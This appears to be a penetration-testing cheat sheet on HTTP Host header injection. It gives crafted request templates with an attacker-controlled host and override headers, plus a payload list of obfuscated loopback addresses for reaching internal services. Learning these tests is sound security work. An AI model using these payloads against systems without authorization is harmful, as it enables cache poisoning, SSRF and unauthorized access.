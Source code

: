 # What is a Host Header Attack
Host header injection is a type of web vulnerability that involves manipulating the Host header in HTTP requests to potentially exploit web applications. This header is used by web servers to determine the hostname of the requested resource. If not properly validated or sanitized, attackers can exploit this header to perform various malicious activities.

### Host header exploit 
1.	**Web Cache Poisoning**:
	•	If a web application or cache server uses the Host header to generate cached responses, an attacker can manipulate the header to poison the cache with malicious content.
2.	**Open Redirects**:
	•	Attackers might use the Host header to exploit open redirect vulnerabilities. By injecting a malicious domain, they can trick users into visiting harmful sites.
3.	**Cross-Site Scripting (XSS)**:
	•	If the application includes the Host header in its response without proper sanitization, it might be possible for an attacker to inject malicious scripts that execute in the user’s browser.
4.	**Internal Resource Access**:
	•	An attacker might be able to exploit misconfigurations to access internal resources or services by manipulating the Host header to point to internal domains.
5.	**Security Misconfigurations**:
	•	Some applications might rely on the Host header to determine authorization rules or application behavior. Incorrect assumptions can lead to privilege escalation or unauthorized access.
6. **Routing-based-SSRF**
    - If an SSR application uses the Host header to determine which content or application logic to apply, an attacker could manipulate this header to redirect users or access unauthorized content.


**Example**
```
    GET / HTTP/1.1
    Host: www.epochcyber.in
    X-Forwarded-Host: www.attacker.com
    ...
```

### How to Exploit
1. Change The Host header value 
```
    GET /about HTTP/1.1 
    Host: www.attacker.com 
    ....

```
2. Use Double Host header value 
```
    GET /about HTTP/1.1
    Host: www.vulnerable-webiste.conm 
    Host: www.attacker.com
    ...
``` 
3. Add an absolute URL 
```
    GET https://Vulnerable-website.com HTTP/1.1
    Host: www.attacker.conm
    ...
``` 
4. Add Host override headers
```
    GET / HTTP/1.1
    Host: www.vulnerable-website.com
    X-Forwarded-Host: www.attacker.com
    ...
```
5. Some Website omit the port from the host header
```
    GET /example HTTP/1.1 
    Host: vulnerable-website.com:bad-stuff-here
    ...

```
6. use arbitary domain name ( for arbitary hostname, you register a hostname)
``` 
    GET /path HTTP/1.1
    Host: notvulnerable-website.com
    ...
```
7. try less secure domain 
```
    GET /path HTTP/1.1
    Host: hacked-subdomain.vulnerable-website.com
    ...
```
8. Add line wrapping 
```
    GET /path HTTP/1.1
            Host: www.attacker.com
    Host: Vulnerable-website.com
```
### you can use  similar host header
```
    1. X-Host
    2. X-Forwarded-Server
    3. X-HTTP-Host-Override
    4. Forwarded
```

### Headers to Change a Location
```
Connection: close, X-Forwarded-For (Check hop-by-hop headers)

```
### Host header value
```
127.0.0.1
localhost
127.0.0.2
127.0.1.1
127.1.1.1
127.255.255.254
::1
[::1]
127.0.0.1:80
localhost:8080
0x7f.0x0.0x0.0x1
2130706433
0177.0.0.01
localhost.localdomain
localhost.lan
::ffff:127.0.0.1
::ffff:127.0.0.1
0x7f.0.0.0x01
127.0.0x0.01
127.0x00.00.1
0b01111111.0b00000000.0b00000000.0b00000001
127.000.000.001
127.0000.0000.0001
127.000000000000.0.1
127.0.0.000001
localhost.测试 
localhost.пример 
test.internal
dev.localhost
myapp.local
0:0:0:0:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
```

### **References**
1. [Acunetix --> host header article ](https://www.acunetix.com/blog/articles/automated-detection-of-host-header-attacks/)
2. [portswigger--> host header](https://portswigger.net/web-security/host-header/exploiting#how-to-test-for-vulnerabilities-using-the-http-host-header)